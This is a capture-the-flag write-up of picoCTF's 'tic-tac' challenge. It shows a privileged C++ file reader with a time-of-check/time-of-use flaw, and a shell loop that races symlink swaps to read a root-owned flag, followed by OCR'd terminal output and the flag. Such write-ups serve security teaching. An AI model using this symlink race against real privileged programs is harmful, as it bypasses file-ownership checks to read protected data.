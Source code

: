# tic-tac
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

> Additional details will be available after launching your challenge instance.

## About the Challenge
We were given access to an SSH server, and there are 3 files in the `/home/ctf-player` directory. The files are `flag.txt` which contains the flag, `src.cpp` the source code of the file, and `txtreader` the compiled src.cpp file. Here is the content of the `src.cpp`

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
        return 1;
    }                                                                                                                             
    
    std::string filename = argv[1];
    std::ifstream file(filename);
    struct stat statbuf;

    // Check the file's status information.
    if (stat(filename.c_str(), &statbuf) == -1) {
        std::cerr << "Error: Could not retrieve file information" << std::endl;
        return 1;
    }
    
    // Check the file's owner.
    if (statbuf.st_uid != getuid()) {
        std::cerr << "Error: you don't own this file" << std::endl;
        return 1;
    }
    // Read the contents of the file.
    if (file.is_open()) {
        std::string line;
        while (getline(file, line)) {
            std::cout << line << std::endl;
        }
    } else {
        std::cerr << "Error: Could not open file" << std::endl;
        return 1;
        }
    return 0;
}
```

So if we run `./txtreader flag.txt`, the output is `Error: you don't own this file` because to open `flag.txt` file we need to login as `root` first


[Image extracted text: ctf-player@pico-chall$
[txtreader flag-txt
Error
you don't
Own
this file
ctf-player@pico-challs cat
src.cpp
#include
<iostream>
#include <fstream>
#include
<unistd.h>
#include
<sys/stat.h>
int main(int
argc
char *argv[])
if (argc
1=2)
std:
cerr
4
"Usage:
argv[0]
4
<filename>
std::endl;
return 1;
std::string filename
argv[1];
std::ifstream file(filename) ;
struct stat statbuf;
Check
the file
status
information.
if (stat(filename
str(), &statbuf)
-1) {
std:
cerr
< "Error: Could not
retrieve
file information"
4
std::endl;
return 1;
Check the file
Owner _
if (statbuf.st_uid
getuid())
std:
cerr
< "Error:
you don't
Own this
file"
4
std::endl;
return 1;
Read the
contents of the file
if (file-is_
open ( ) )
std::string line;
while (getline(file, line))
std:
cout
line
std
endl;
} else
std:
cerr
"Error:
Could not
open
file"
std:
endl;
return 1;
return 0;]


## How to Solve?
If we check the tag of the chall is `TOCTOU` vulnerability (Time-Of-Check Time-Of-Use). And then im searching about `TOCTOU` vulnerability in C program and then I found this website (You can access the website [here](https://samsclass.info/127/proj/E10.htm))

You run this command to solve the chall and obtain the flag

```shell
echo "PUBLIC INFORMATION" >> public
for i in {1..1000}; do ln -sf flag.txt flip; ln -sf public flip; done
while true; do ln -sf flag.txt flip; ln -sf public flip; done &
for i in {1..30}; do ./txtreader flip; done
```

So, first you need to create a file that can be accessed by yourself called `public`. And then testing the flipping rate. And then flips the link from `public` to `flag.txt` rapidly and runs in the background. And then try to execute the `txtreader` file multiple times to get the flag


[Image extracted text: ctf-player@pico-chall$
for i
in {1_
1000} ;
do In
~sf flag-txt flip;
In
~Sf public flip;
done
ctf-player@pico-chall$ while true;
do In
~Sf
txt flip;
In
~Sf public flip;
done &
[2] 36525
ctf-player@pico-chall$
for i in
{1..30};
do
Itxtreader flip;
done
Error
you
don't
Own this file
PUBLIC INFORMATION
PUBLIC INFORMATION
Error
you
don't
Own
this file
Error
you don't
Own
this file
PUBLIC INFORMATION
PUBLIC INFORMATION
Error
you
don't
Own
this file
Error
you don't
Own this file
PUBLIC INFORMATION
PUBLIC INFORMATION
PUBLIC INFORMATION
Error
you
don't
Own
this file
PUBLIC INFORMATION
PUBLIC INFORMATION
Error
you
don't
Own this file
PUBLIC INFORMATION
PUBLIC INFORMATION
picoCTF{ToctoU_
3aSy_0490d70a}
Error
you
don't
Own this file
PUBLIC INFORMATION
PUBLIC INFORMATION
Error:
you
don't
Own this file
DHPITC
TnfopMATTON
flag]


```
picoCTF{ToctoU_!s_3a5y_0490d70a}
```